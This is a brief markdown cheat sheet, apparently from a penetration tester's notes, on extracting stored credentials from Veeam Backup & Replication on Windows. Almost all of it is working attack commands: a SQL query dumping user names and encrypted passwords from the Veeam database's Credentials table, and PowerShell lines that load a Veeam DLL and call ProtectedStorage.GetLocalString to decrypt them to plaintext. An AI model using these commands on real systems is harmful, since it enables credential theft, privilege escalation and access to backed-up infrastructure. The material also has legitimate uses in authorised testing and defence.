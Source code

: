 # saz-veeam

#plateform/windows
#target/local
#cat/PRIVESC
#cat/PERSIST
#cat/AZIZI-Sajjad
#tag/veeam

## VEEAM Get DataBase (DIR)
```
C:\Program Files\Common Files\Veeam\Backup and Replication\DBConfig\
```

## VEEAM Get DataBase (Run As Administrator)
```
C:\Program Files\Common Files\Veeam\Backup and Replication\DBConfig\Veeam.Backup.DBConfig.exe
```

## VEEAM - Récupérer les MDP DB step 1/2: SQL
```
SELECT TOP 100 [id], [user_name], [password], [usn], [description], [visible], [change_time_utc] FROM [VeeamBackup_New].[dbo].[Credentials];
```

## VEEAM - Récupérer les MDP DB step 2/2: PowerShell
```
Add-Type -Path "C:\Program Files\Veeam\Backup and Replication\Backup\Veeam.Backup.Common.dll"; [Veeam.Backup.Common.ProtectedStorage]::GetLocalString("<PASSWORD_HASH>")
```


## VEEAM - Récupérer les MDP DB step 2/2 (2): PowerShell
```
"$encoded= "<PASSWORD_HASH>""
Add-type -path "C:\Program Files\Veeam\Backup and Replication\Backup\Veeam.Backup.Common.dll"
[Veeam.Backup.Common.ProtectedStorage]::GetLocalString($encoded)
```